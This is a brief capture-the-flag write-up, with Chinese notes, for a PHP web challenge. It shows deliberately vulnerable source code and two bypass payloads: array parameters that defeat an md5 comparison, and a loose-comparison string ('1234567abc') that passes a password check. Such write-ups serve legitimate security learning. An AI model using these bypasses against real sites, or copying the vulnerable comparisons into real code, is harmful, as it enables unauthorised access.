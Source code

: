 ![[Pasted image 20221101080348.png]]

![[Pasted image 20221101080408.png]]

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else
            {
                echo 'You can not get it !';
            }
		}
	    else
	    {
	        die('only one way to get the flag');
	    }
	}
	else 
	{
	    echo "You are not a real hacker!";
	}
}
else
{
    die('Please input first');
}
}Please input first
```
先使用数组绕过md5函数
```
/?gg[]=1&id[]=2
```
![[Pasted image 20221101081208.png]]

再用弱类型比较绕过
```
passwd=1234567abc
```
![[Pasted image 20221101081422.png]]

#Web #PHP #绕过